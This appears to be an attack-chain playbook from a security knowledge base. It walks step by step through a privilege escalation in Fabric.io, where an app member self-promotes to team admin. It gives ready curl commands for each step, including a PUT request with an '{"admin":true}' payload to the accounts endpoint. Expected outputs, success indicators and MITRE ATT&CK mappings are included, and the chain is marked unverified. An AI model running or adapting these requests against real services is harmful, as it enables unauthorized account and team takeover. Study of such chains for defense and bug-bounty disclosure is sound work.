

# Privilege Escalation via Unauthorized User Account Update in Fabric.io

Multi-stage attack chain demonstrating a complete privilege escalation workflow in Fabric.io, where an authenticated app member bypasses authorization to self-escalate to admin, gaining control over the entire team.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser Developer Tools or [[tools/Burp-Suite]] for request crafting
- Valid authenticated session as app member

### Target Environment

- Fabric.io web application
- API endpoints: /api/v2/organizations/[orgid]/apps/[appid]/team_members and /accounts/[user_id]
- Required services/ports: HTTPS (443)
- Network access requirements: Direct access to fabric.io domain

### Initial Access Requirements

- Valid credentials for an app member account (non-admin)
- Active session cookie
- Knowledge of organization ID (orgid) and app ID (appid)

## Detailed Attack Procedures

### Step 1: Authenticate and Retrieve User ID
procedure: [[procedures/Retrieve-Team-Members-to-Obtain-User-ID]]

**Objective**: Log in as an app member and fetch the team members list to obtain the attacker's own user ID for subsequent updates.

**Instructions**: Log in to Fabric.io as Alice (app member). Navigate to app settings > team members. Use the browser's developer tools or a proxy like Burp Suite to intercept and inspect the API request.

Execute [[commands/get-team-members]] to retrieve the team members:

```bash
curl -X GET "https://fabric.io/api/v2/organizations/[orgid]/apps/[appid]/team_members" \
  -H "Cookie: _fabric_session=..." \
  -H "User-Agent: Mozilla/5.0 ..."
```

**Expected Output**: JSON response containing user details, including "id": "54aa4ab19ea6961359001260", "name": "alice", "is_admin": false.

**Success Indicators**:
- User ID extracted successfully
- Confirmed non-admin role (is_admin: false)

### Step 2: Escalate Privileges by Updating Admin Status
procedure: [[procedures/Escalate-Privileges-by-Updating-Admin-Status]]

**Objective**: Craft and send an unauthorized PUT request to the /accounts endpoint to set the admin flag to true for the attacker's user ID.

**Instructions**: Using the obtained user ID, prepare a PUT request with the admin payload. Include necessary headers from the session, such as CSRF token, developer token, and referer.

Execute [[commands/put-update-admin-status]] to update the account:

```bash
curl -X PUT "https://fabric.io/accounts/54aa4ab19ea6961359001260" \
  -H "Content-Type: application/json; charset=UTF-8" \
  -H "X-CSRF-Token: ..." \
  -H "X-CRASHLYTICS-DEVELOPER-TOKEN: ..." \
  -H "Referer: https://fabric.io/settings/apps/[appid]/team_members" \
  -H "Cookie: _fabric_session=..." \
  -d '{"admin":true}'
```

**Expected Output**: HTTP 200 OK or successful update response (no error), though the body may be minimal.

**Success Indicators**:
- Request completes without authorization error
- No immediate rejection from the server

### Step 3: Verify Admin Role Escalation
procedure: [[procedures/Verify-Admin-Role-Escalation]]

**Objective**: Refresh the team members page to confirm the role change and demonstrate admin capabilities, such as managing other users.

**Instructions**: After the update, navigate back to the team members page or re-send the GET request to verify the change. Test admin actions like editing another user's role.

Re-execute [[commands/get-team-members]] to check the updated role:

```bash
curl -X GET "https://fabric.io/api/v2/organizations/[orgid]/apps/[appid]/team_members" \
  -H "Cookie: _fabric_session=..."
```

**Expected Output**: JSON response now shows "is_admin": true for the user.

**Success Indicators**:
- Team members list reflects admin role
- Ability to perform admin actions (e.g., delete or change other users' roles)

## Attack Chain Summary

### Key Achievements

1. Obtained sensitive user ID via team members API without additional auth.
2. Bypassed authorization to self-escalate to admin via direct PUT update.
3. Gained full team management control, enabling further unauthorized actions.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploitation for Privilege Escalation]] Exploitation for Privilege Escalation
- [[Valid Accounts]] Valid Accounts

### MITRE ATT&CK Tactics

- [[Privilege Escalation]] Privilege Escalation
- [[Initial Access]] Initial Access

---
*Last updated: 2023-10-01T00:00:00Z*
